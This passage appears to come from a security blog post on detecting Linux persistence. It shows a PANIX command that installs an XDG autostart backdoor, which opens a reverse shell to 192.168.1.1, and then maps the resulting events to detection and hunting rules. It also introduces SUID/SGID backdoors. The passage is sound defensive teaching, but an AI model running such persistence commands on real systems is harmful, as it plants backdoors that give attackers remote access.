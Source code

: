 ```
sudo ./panix.sh --xdg --default --ip 192.168.1.1 --port 2005
[+] XDG persistence established.
```

After rebooting the system and collecting the logs, the following events will be present for a GNOME-based system.

![Events generated as a result of XDG persistence establishment](/assets/images/primer-on-persistence-mechanisms/image7.png "Events generated as a result of XDG persistence establishment")

We can see PANIX creating the `/etc/xdg/autostart` directory and the `pkc12-register/pkc12-register.desktop` files. It grants execution privileges to the backdoor script, after which persistence is established. When the user logs in, the `.desktop` files are parsed, and `/usr/libexec/gnome-session-binary` executes its contents, which in turn initiates the reverse shell connection. Here, again, we can detect several parts of the attack chain. 

| Category | Coverage                                                          |
|----------|-------------------------------------------------------------------|
| File     | [Persistence via KDE AutoStart Script or Desktop File Modification](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_kde_autostart_modification.toml) |
|          | [Potential Persistence via File Modification](https://github.com/elastic/detection-rules/blob/main/rules/integrations/fim/persistence_suspicious_file_modifications.toml)                       |
| Network  | [Network Connections Initiated Through XDG Autostart Entry](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_xdg_autostart_netcon.toml)         |

Again, the file category has two different rules: the former focuses on creation/modification using Elastic Defend, while the latter focuses on modification through FIM.

### Hunting for T1547.013 - XDG autostart entries

Hunting for persistence through XDG involves XDG `.desktop` file creations in known locations and unusual child processes spawned from a session-manager parent through ES|QL and OSQuery. The [XDG Persistence](https://github.com/elastic/detection-rules/blob/main/hunting/linux/queries/persistence_via_xdg_autostart_modifications.toml) hunting rule contains several queries to hunt for XDG persistence.

## T1548.001 - abuse elevation control mechanism: setuid and setgid

[Set Owner User ID (SUID)](https://man7.org/linux/man-pages/man2/setuid.2.html) and [Set Group ID (SGID)](https://man7.org/linux/man-pages/man2/setgid.2.html) are Unix file permissions allowing users to run executables with the executable’s owner or group permissions, respectively. When the SUID bit is set on an executable owned by the root user, any user running the executable gains root privileges. Similarly, when the SGID bit is set on an executable, it runs with the permissions of the group that owns the file. 

Typical targets for SUID and SGID backdoors include common system binaries like `find`, `vim`, or `bash`, frequently available and widely used. [GTFOBins](https://gtfobins.github.io/#+suid) provides a list of common Unix binaries that can be exploited to obtain a root shell or unauthorized file reads. System administrators must be cautious when managing SUID and SGID binaries, as improperly configured permissions can lead to significant security vulnerabilities. 

To exploit this, either a misconfigured SUID or SGID binary must be present on the system, or root-level privileges must be obtained to create a backdoor. Typical privilege escalation enumeration scripts enumerate the entire filesystem for the presence of these binaries using `find`. 

